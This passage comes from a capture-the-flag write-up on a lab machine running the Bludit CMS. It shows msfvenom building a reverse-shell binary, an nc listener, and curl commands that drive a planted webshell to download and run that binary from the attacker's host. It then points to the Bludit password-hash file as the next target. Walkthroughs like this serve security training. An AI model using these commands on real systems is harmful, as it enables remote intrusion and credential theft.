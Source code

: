 That is remote code execution. Use it to get a dedicated reverse shell:

```bash
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -f elf \
         -o bubba.elf
sudo python3 -m http.server 80
nc -nvlp 6969
curl -s -G --data-urlencode 'c=wget -O /dev/shm/bubba.elf 10.10.14.25/bubba.elf' http://10.10.10.191/bl-content/tmp/temp/evil.png
curl -s -G --data-urlencode 'c=chmod +x /dev/shm/bubba.elf' http://10.10.10.191/bl-content/tmp/temp/evil.png
curl -s -G --data-urlencode 'c=ls -la /dev/shm/' http://10.10.10.191/bl-content/tmp/temp/evil.png
curl -s -G --data-urlencode 'c=/dev/shm/bubba.elf' http://10.10.10.191/bl-content/tmp/temp/evil.png
```

This provides a dedicated shell but no `user.txt`:

![user2](./blunder/user2.png)

After connecting, try going for the passwords for the Bludit application. Looking for information on this brings up the following:

- https://github.com/bludit/password-recovery-tool

The source code for `recovery.php` shows that a password is located at `bl-content/databases/users.php` and is a SHA1 hash of the password and a salt. Try finding these on the target:

![user3](./blunder/user3.png)
